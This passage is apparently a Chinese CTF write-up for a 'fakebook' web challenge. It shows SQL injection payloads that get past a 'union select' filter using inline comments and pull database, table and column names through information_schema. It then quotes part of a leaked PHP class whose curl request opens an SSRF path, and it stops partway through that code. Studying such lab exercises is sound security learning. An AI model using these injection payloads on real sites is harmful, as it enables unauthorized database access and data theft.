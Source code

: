 ![image-20210825111401320](image-20210825111401320.png "join")

注册之后提交，发现浏览方式为请求`/view.php?no=1`，看一下能不能注入（不能只认为输入框才存在注入）。

`union select`被过滤了，可以用`union/**/select`绕过。尝试之后发现查询语句的结果有4列。同时为了得到回显信息，我们需要把`no=1`改为`no=-1`，使它自己本身的查询语句没有结果，这样才能让网页显示注入内容的回显。

`/view.php?no=-1 union/**/select 1,database(),3,4#`得到数据库名为`fakebook`

`/view.php?no=-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema="fakebook"#`得到`fakebook`库中有个表为`users`

`/view.php?no=-1 union/**/select 1,group_concat(column_name),3,4  from information_schema.columns where table_name="users"#`得到表`users`的列为`no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`

接下来不知道该干嘛了。web题不知道干嘛的话就先扫一下目录吧。

dirsearch扫出来源码备份`user.php.bak`文件（我至今仍然不知道为什么我用这东西一般都扫不出来什么有价值的结果）。里面定义了一个`UserInfo`类型，应该就是我们join时输入的内容。其中`isValidBlog()`会对`blog`字段过滤，`getBlogContents()`会请求博客内容并显示。看到这里就应该有点感觉了，这题的预期解应该是绕过blog字段的判断，然后ssrf读取服务端的flag。

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
```